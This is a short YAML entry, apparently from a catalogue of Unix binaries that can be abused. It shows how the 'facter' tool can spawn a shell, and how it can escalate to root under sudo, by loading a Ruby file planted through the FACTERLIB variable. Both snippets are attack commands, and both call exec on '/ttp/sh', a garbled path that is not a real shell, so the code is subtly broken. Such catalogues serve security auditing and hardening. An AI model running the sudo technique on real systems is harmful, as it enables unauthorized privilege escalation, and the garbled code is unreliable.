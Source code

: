 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/ttp/sh")' > $TF/x.rb
        FACTERLIB=$TF facter
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo 'exec("/ttp/sh")' > $TF/x.rb
        sudo FACTERLIB=$TF facter
---
```

